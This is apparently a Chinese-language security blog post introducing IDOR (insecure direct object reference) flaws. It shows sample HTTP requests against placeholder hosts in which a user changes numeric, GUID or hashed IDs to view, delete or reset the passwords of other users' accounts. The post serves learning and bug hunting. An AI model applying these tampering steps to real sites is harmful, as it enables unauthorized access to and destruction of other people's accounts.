 ```yaml
---
layout:     post
title:      IDOR intro
subtitle:   
date:       2020-01-09
author:     D
header-img: 
catalog: true
tags:
    - Broken Access Control
    - IDOR 
---
```


OWASP已经把 `IDOR` 归属为 `Broken Access control`.

### 什么是IDOR？
IDOR 全称是Insecure Direct Object Reference(不安全的直接对象引用).

### Simple numeric IDOR
假设你登陆的帐号链接如下：
```javascript
https://www.abc.com/orders/id?=43976
```
你将它改为下面之后,可以查看甚至是修改
id=43975的人的信息;但是这个帐号并不属于你。
```javascript
https://www.abc.com/orders/id?=43975
```

### IDOR in POST
下面的POST请求你可能很容易猜到修改什么地方可能个产生IDOR
```
POST /account/deleteaccnt HTTP/1.1
Host: acme.com
Connection: close
Content-Length: 22
Cache-Control: max-age=0
Origin: https://acme.com
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=3214536754363414df3142gf2341

acID=4321&action=Delete
```
没错它就是 `acID`.

### GUID based IDOR
你注册且登录 account 1 会有如下链接
```javascript
https://www.acme.com/changepw/id?=13d573e8-5210-408a-aa77-6e2e9993d264
```
你注册且登录 account 2 会有如下链接
```javascript
https://www.acme.com/changepw/id?=cec4d0ff-f133-4ffd-9ed9-3e0d0c5a3990
```
这种情况如果你想要形成`IDOR`要先找到另外一个用户的 `GUID`.
要枚举`guid`或**不可枚举的帐户ID**，请查找可能**返回此数据**的其他`端点`或`web服务`。
在您的**代理历史**中快速搜索您的ID应该是您首先检查的请求，并**尝试篡改**以获得其他ID(**有时这本身就是一个漏洞**)。

**GUID 是微软对UUID这个标准的实现。UUID是由开放软件基金会（OSF）定义的。UUID还有其它各种实现，不止GUID一种.**

### GUID based IDOR (cont.)

```javascript
GET /api/data/admin@acme.com HTTP/1.1
Host: acme.com
Connection: close
Content-Length: 22
Cache-Control: max-age=0
Origin: https://acme.com
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

```javascript
HTTP/1.1 200 OK
Accept-Ranges: bytes
Vary: Accept-Encoding
Content-Type: text/json; charset=UTF-8
<... SNIPPED ...>

{"accountdata":{"account":"admin@acme.com"},{"uuid":"cec4d0ff-f
133-4ffd-9ed9-3e0d0c5a3990"},{"name":"admin"},{"role":"admin"}}
```
很多时候，存在将用户`电子邮件`转换为`UUID的端点`，这些函数有时可以用于获取其他用户的GUID。
搜索引擎抓取和查找任何相关`移动应用程序`的功能也是如此。`移动API`通常返回详细的数据级别。
它还与真正验证UUID或ID是随机的有关。有时看起来复杂的ID只有`部分随机`，这使得它们很`容易迭代`。

### Hash based IDOR
IDOR函数值可以有多种形式。基于`字符串`、`散列`、`编码`等。本例是MD5散列。

```
POST /account/updatepasswd HTTP/1.1
Host: acme.com
Connection: close
Content-Length: 22
Cache-Control: max-age=0
Origin: https://acme.com
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=3214536754363414df3142gf2341

userid=912134131a7b11f2dfee0b92bf6b0eed&action=updatepasswd
```

